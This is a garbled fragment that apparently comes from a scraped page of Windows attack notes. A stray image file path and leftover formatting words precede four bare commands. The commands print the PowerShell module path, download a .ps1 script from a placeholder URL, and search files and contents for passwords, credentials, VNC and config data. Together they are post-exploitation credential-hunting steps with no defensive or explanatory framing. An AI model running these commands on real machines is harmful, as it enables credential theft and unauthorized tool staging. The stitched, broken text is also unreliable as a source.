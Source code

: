 TO FORMAT


echo $Env:PSModulePath

Invoke-WebRequest http://url-to/file.ps1 -OutFile C:\path\to\file.ps1

dir /s \*pass\* == \*cred\* == \*vnc\* == \*.config\*
findstr /si password \*.xml \*.ini \*.txt
